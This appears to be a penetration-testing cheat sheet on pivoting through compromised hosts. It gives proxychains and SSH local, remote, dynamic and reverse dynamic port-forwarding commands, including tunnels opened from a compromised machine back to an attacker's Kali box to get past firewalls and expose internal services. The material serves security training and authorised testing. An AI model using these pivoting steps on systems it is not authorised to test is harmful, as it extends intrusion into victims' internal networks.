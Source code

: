 # Port forwarding

## Proxychains-ng

Version of proxychains that allows to specify different configurations for each connection. Useful for running multiple proxies on different ports when pivoting through several subnets.

```
apt-get install proxychains4
proxychains -f <conf file> <command>
```

## SSH

### Local port forwarding

Allow to reach an isolated machine connected to an exploited one by using the exploited machine to forward all packages between the Kali host and the target.

**On Kali:** redirect any traffic (0.0.0.0) to the target by logging in the compromised machine in the middle

```
ssh -N -L <origin ip>:<origin port>:<target ip>:<target port> <middle usr>@<middle ip>
```

### Remote port forwarding

Use this technique if the firewall is blocking incoming connections so it is not possible to establish an SSH session between the attacking machine and the target, but we can establish a connection from the targeted machine towards our host bypassing the firewall’s inbound traffic filters.

Can also be used to expose services running as localhost on the remote machine to the attacker, to the remote machine all connections being forwarded will appear as if they were coming from localhost.

**On compromised machine:** reroute all incoming traffic to attacking machine

```
ssh -N -R <kali ip>:<kali port>:<target address>:<target port> <kali user>@<kali ip>
```

#### Example of exposing services running as localhost

Run the following command on the compromised machine to map the local service port to a new port exposed to the attacker's machine.

```
ssh -N -R <exposed port>:localhost:<service port> <kali user>@<kali ip>
```

We can access the exposed service by navigating to the exposed port in our attacker machine. For instance if the exposed service is a web server and the specified exposed port is 8000 we can access the hosted content by navigating to `http://localhost:8000` on the attacker machine

### Dynamic port forwarding

Set a local listening port and have it tunnel incoming traffic to any remote destination through a proxy. Works the same way as a local port forwarding but allows to target different ports and machines without having to create different tunnels for each host or port.

**On Kali:** connect us (127.0.0.1) to any target in network through the machine in the middle

```
ssh -N -D 127.0.0.1:<port> <middle user>@<middle ip>
```

#### Setup:

```
cat /etc/proxychains.conf
#new proxies go under [ProxyList]
socks4 127.0.0.1 <port>
#run commands through proxy
proxychains <command>
```

### Reverse dynamic port forwarding

Works the same way as the Remote port forwarding technique plus the ability to change destination on the target network.

**On compromised machine:** reroute all traffic from any port to the attacker

```
ssh -f -N -R <port> -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i <path to keys> <kali user>@<kali ip>
```

#### Setup:

1\. Create public keys on compromised machine

```
mkdir /tmp/keys
ssh-keygen
cat <path to key>.pub
```

2\. Copy the keys in your kali machine

```
echo from="<domain ip>",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa <key.pub content> >> ~/.ssh/authorized_keys
```

3\. configure proxychains

```
cat /etc/proxychains.conf
socks4 <proxy ip> <port>
#run commands through proxy
proxychains <command>
```
